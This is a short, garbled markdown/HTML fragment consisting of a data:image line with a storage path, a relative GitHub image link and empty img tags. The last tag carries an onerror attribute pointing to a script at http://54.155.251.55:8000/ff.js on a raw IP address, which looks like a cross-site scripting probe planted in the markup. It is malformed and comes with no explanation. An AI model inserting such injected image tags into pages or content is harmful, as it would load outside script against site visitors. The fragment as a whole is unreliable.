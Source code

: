 <img src="../../../../r89shi/r89shi.github.io/blob/master/140.gifs?raw=true">

<img src="">
<img src="" "Onerror='http://54.155.251.55:8000/ff.js'">

